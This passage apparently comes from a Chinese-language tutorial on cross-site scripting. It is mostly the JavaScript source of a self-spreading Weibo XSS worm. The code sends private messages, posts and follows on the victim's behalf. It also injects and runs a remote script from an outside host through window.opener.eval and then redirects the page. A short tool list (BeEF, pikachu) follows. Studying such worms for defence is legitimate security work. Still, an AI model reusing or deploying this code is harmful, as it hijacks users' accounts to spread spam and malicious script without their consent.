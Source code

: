 ```js
        msgurl = 'http://weibo.com/message/addmsg.php?rnd=' + new Date().getTime();
        msg = random_msg();
        msg = encodeURIComponent(msg);
        user = encodeURIComponent(encodeURIComponent(id[i]));
        data = 'content=' + msg + '&name=' + user + '&retcode=';
        post(msgurl,data,false);  //通过 XmlHttpRequest 发送请求
    }
}

function main(){
    try{
        publish(); //模拟发表微博
    } catch(e){}
    
    try{
        follow(); //模拟关注用户
    }catch(e){}

    try{
        message(); //模拟发送私信
    }catch(e){}
}

try{

    //在当前 body 尾部插入存放在远端的 Xss 恶意脚本
 x="g=document.createElement('script');g.src='http://www.2kt.cn/images/t.js';document.body.appendChild(g)";window.opener.eval(x);
}catch(e){}

main();

var t=setTimeout('location="http://weibo.com/pub/topic";',5000);
//等待 5 秒跳转到微话题页面
```



## 工具推荐

- [BeEF](https://github.com/beefproject/beef)：https://github.com/beefproject/beef
- [pikachu](https://github.com/zhuifengshaonianhanlu/pikachu)：https://github.com/zhuifengshaonianhanlu/pikachu


